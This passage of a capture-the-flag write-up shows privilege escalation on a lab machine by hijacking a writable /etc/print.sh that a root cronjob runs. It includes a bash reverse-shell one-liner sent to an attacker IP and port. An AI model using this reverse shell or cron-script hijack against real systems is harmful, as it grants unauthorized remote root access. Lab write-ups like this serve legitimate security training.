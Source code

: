 From the image above, it seems that `planner.sh` is modifying the `startup_list.txt` file every minute. This indicates it is likely part of a cronjob that we can leverage to exploit privilege escalation.

It's worth noting that it not only modifies the text file but also executes another script located in `/etc`.


![Desktop View](/assets/images/startup/printsh.png){: width="972" height="589" }

Looks like lennie have write access to the print.sh found in /etc directory.

This means that we can edit the content of the print shell script and spawn our shell that has root access. You can use any text file editor you are comfortable using.

```bash
echo "/bin/bash -i >& /dev/tcp/10.13.50.82/8080 0>&1" >> print.sh
```

Do not forget to setup the listener first and edit the reverse shell script pointing to your attacker machine IP address and port. Then wait for the cronjob to execute.

![Desktop View](/assets/images/startup/rooted.png){: width="972" height="589" }

We got root!

![Desktop View](/assets/images/startup/pwned.png){: width="972" height="589" }
